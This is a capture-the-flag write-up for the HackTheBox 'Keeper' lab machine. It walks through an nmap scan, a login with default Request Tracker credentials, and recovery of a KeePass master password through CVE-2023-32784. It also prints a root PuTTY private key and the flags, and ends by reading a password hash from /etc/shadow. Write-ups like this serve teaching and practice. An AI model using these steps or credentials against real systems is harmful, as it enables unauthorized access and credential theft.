








# Keeper - HackTheBox - Writeup
Linux, 20 Base Points, Easy



## Machine


 
## TL;DR

To solve this machine, we start by using `nmap` to enumerate open services and find ports `22`, and `80`.

***User***: Discovered the SSH password for the `lnorgaard` user on the `Request Tracker system's` user information page.

***Root***: Located a zip file named `RT30000.zip` containing a `KeePass` database file and a memory dump. Utilized `CVE-2023-32784` to extract the password from the memory dump. Additionally, identified the `Putty User-Key-File` for the `root` user in the `KeePass` database. Converted it to SSH private key using `puttygen`.




## Keeper Solution

### User

Let's begin by using `nmap` to scan the target machine:

```console
┌─[evyatar9@parrot]─[/hackthebox/Keeper]
└──╼ $ nmap -sV -sC -oA nmap/Keeper 10.10.11.227
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-21 23:15 IDT
Nmap scan report for 10.10.11.227
Host is up (0.074s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3539d439404b1f6186dd7c37bb4b989e (ECDSA)
|_  256 1ae972be8bb105d5effedd80d8efc066 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Observing port `80`, we see that the following web page is hosted:


And the URL is http://tickets.keeper.htb/rt/. Let's append `tickets.keeper.htb` to `/etc/hosts` and navigate to the link:



We located the default credentials at https://forum.bestpractical.com/t/forgot-admin-password-of-rt/33451, which are `root:password`:



On http://tickets.keeper.htb/rt/Admin/Users/ page, we discovered the following users:



If we access the user information page at http://tickets.keeper.htb/rt/Admin/Users/Modify.html?id=27, we can view the user's password: `Welcome2023!`:



The provided password successfully grants SSH access:

```console
┌─[evyatar9@parrot]─[/hackthebox/Keeper]
└──╼ $ ssh lnorgaard@10.10.11.227
The authenticity of host '10.10.11.227 (10.10.11.227)' can't be established.
ECDSA key fingerprint is SHA256:apkh696g2/uAeckIXd6eFvgmvmPqoEj41w4ia45OfrI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.227' (ECDSA) to the list of known hosts.
lnorgaard@10.10.11.227's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have mail.
Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
lnorgaard@keeper:~$ cat user.txt 
434b23c8b9cf23b8b03cf58fc72887ad
```

And we get the user flag `434b23c8b9cf23b8b03cf58fc72887ad`.

### Root

In `lnorgaard's` home directory, we find the following files:
```console
lnorgaard@keeper:~$ ls
RT30000.zip  user.txt
```

After unzipping the `RT30000.zip` file, we can observe the following contents:
```console
lnorgaard@keeper:/tmp$ unzip RT30000.zip 
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp     
 extracting: passcodes.kdbx       
```

We've identified a [KeePass](https://keepass.info/) memory dump file and a `kdbx` file, which is the KeePass database file.

KeePass is an open-source password manager. You can download the Linux client from https://keepass.info/download.html.

Upon opening the `kdbx` file, we'll require the file's master key:



We can use `CVE-2023-32784`. In KeePass 2.x versions prior to 2.54, it's possible to retrieve the cleartext master password from a memory dump.

For this, we can employ the following POC: https://github.com/CMEPW/keepass-dump-masterkey:

```console
┌─[evyatar9@parrot]─[/hackthebox/Keeper/keepass-dump-masterkey]
└──╼ $ python3 poc.py ../KeePassDumpFull.dmp 
2023-09-22 00:44:45,740 [.] [main] Opened ../KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```

We've identified potential passwords; however, the POC is unable to recognize the character `●` because it's not in English.

On the user information page http://tickets.keeper.htb/rt/Admin/Users/Modify.html?id=27:


In the 'Extra Info' section, it states 'Helpdesk Agent from Korsbæk' (Denmark).

Upon searching for `●Mdgr●d med fl●de`, I came across the following page https://en.wiktionary.org/wiki/r%C3%B8dgr%C3%B8d_med_fl%C3%B8de, which contains the term `rødgrød med fløde` (Red porridge with cream). This happens to be the password for the `kdbx` file:


We've located the `Putty User-Key-File` of the `root` user. Now, we need to proceed with converting it into an SSH private key as outlined below:

```console
┌─[evyatar9@parrot]─[/hackthebox/Keeper]
└──╼ $ cat userkey.ppk
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
┌─[evyatar9@parrot]─[/hackthebox/Keeper]
└──╼ $ puttygen userkey.ppk -O private-openssh -o id_rsa
┌─[evyatar9@parrot]─[/hackthebox/Keeper]
└──╼ $ ssh -i idrsa root@10.10.11.227
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# cat root.txt 
9dc5b221bc49eeba2a78259f0de5f9cd
```

And we get the root flag `9dc5b221bc49eeba2a78259f0de5f9cd`.


PDF password
```console
root@keeper:~# cat /etc/shadow | grep root
$y$j9T$ZskeM1pGHOyGxzc3pg/bg/$jCd9wfODgoaD9Ax.4Pd9e3MTLOq9.FD3hf9cpM.VBM5
```